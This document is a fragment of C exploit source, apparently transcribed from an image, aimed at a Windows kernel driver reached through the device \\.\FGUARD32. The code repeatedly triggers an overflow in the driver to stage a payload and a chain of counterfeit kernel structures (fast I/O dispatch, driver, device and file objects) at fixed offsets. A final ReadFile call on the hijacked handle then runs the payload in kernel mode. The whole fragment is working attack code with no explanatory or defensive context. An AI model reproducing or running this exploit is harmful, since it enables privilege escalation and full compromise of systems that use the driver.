     BOOL   r;
    PVOID  *p;
    int    OldPriority;
    HANDLE hObject;
    HANDLE hDevice;
    PVOID  pPayload;
    PVOID  pFastIo;
    PVOID  pDrvObj;
    PVOID  pDevObj;
    PVOID  pFileObj;

    hDevice = CreateFileA("\\\\.\\FGUARD32", GENERIC_READ | GENERIC_WRITE, 7, 0, OPEN_EXISTING, 0, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("CreateFileA failed: %d", GetLastError());
        goto Exit;
    }

    OldPriority = GetThreadPriority(GetCurrentThread());
    SetThreadPriority(GetCurrentThread(), THREAD_PRIORITY_HIGHEST);

    DROP_FILE_WITH_CHECK(Payload);
    r = Overflow(hDevice, &pPayload, &hObject);
    printf("Payload: %p\n", pPayload);
    CHECK_NULL_EXIT(pPayload);
    DeleteFiles();

    //offset nt!_FAST_IO_DISPATCH::FastIoRead
    p = (PVOID *)&FastIo[0x2F4 + 0x8];
    *p = pPayload;
    DROP_FILE_WITH_CHECK(FastIo);
    Overflow(hDevice, &pFastIo, &hObject);
    printf("FastIo: %p\n", pFastIo);
    CHECK_NULL_EXIT(pFastIo);
    DeleteFiles();

    //offset nt!_DRIVER_OBJECT::FastIoDispatch
    p = (PVOID *)&DrvObj[0x2F4 + 0x28];
    *p = pFastIo;
    DROP_FILE_WITH_CHECK(DrvObj);
    r = Overflow(hDevice, &pDrvObj, &hObject);
    printf("DrvObj: %p\n", pDrvObj);
    CHECK_NULL_EXIT(pDrvObj);
    DeleteFiles();

    //offset nt!_DEVICE_OBJECT::DriverObject
    p = (PVOID *)&DevObj[0x2F4 + 0x8];
    *p = pDrvObj;
    DROP_FILE_WITH_CHECK(DevObj);
    r = Overflow(hDevice, &pDevObj, &hObject);
    printf("DevObj: %p\n", pDevObj);
    CHECK_NULL_EXIT(pDevObj);
    DeleteFiles();

    //offset nt!_FILE_OBJECT::DeviceObject
    p = (PVOID *)&FileObj[0x2F4 + 0x4];
    *p = pDevObj;
    DROP_FILE_WITH_CHECK(FileObj);
    r = Overflow(hDevice, &pFileObj, &hObject);
    printf("FileObj: %p\n", pFileObj);
    CHECK_NULL_EXIT(pFileObj);
    DeleteFiles();

    CHAR  Buff;
    DWORD BytesRead;
    ReadFile(hObject, &Buff, 1, &BytesRead, NULL);

    SetThreadPriority(GetCurrentThread(), OldPriority);